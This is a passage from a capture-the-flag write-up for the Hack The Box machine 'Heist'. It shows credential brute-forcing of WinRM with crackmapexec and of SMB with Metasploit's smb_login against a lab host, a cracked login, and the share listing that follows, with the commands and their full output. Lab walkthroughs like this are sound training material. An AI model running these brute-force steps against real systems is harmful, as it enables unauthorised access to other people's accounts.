 With them I created a small wordlist.
```bash
root@w0lf:~/CTF/HTB/Boxes/Heist#  cat user.txt 
hazard
rout3r
admin
root@w0lf:~/CTF/HTB/Boxes/Heist# cat password.txt 
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

We know port `5985` is open so I bruteforce winrm using `crackmapexec`
```bash
root@w0lf:~/CTF/HTB/Boxes/Heist# crackmapexec winrm 10.10.10.149 -u user.txt -p password.txt 
WINRM       10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
```
Nothing worked.

Let's try SMB Bruteforce using Metasploit module `use auxiliary/scanner/smb/smb_login`

```bash
msf5 auxiliary(scanner/smb/smb_login) > run

[*] 10.10.10.149:445      - 10.10.10.149:445 - Starting SMB login bruteforce
[+] 10.10.10.149:445      - 10.10.10.149:445 - Success: '.\hazard:stealth1agent'
[!] 10.10.10.149:445      - No active DB -- Credential data will not be saved!
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\rout3r:stealth1agent',
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\rout3r:$uperP@ssword',
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\rout3r:Q4)sJu\Y8qz*A3?d',
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\admin:stealth1agent',
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\admin:$uperP@ssword',
[-] 10.10.10.149:445      - 10.10.10.149:445 - Failed: '.\admin:Q4)sJu\Y8qz*A3?d',
[*] 10.10.10.149:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We got one success let's login and check whats inside.
```bash
root@w0lf:~/CTF/HTB/Boxes/Heist# smbclient -L 10.10.10.149 -U hazard
Enter WORKGROUP\hazard's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```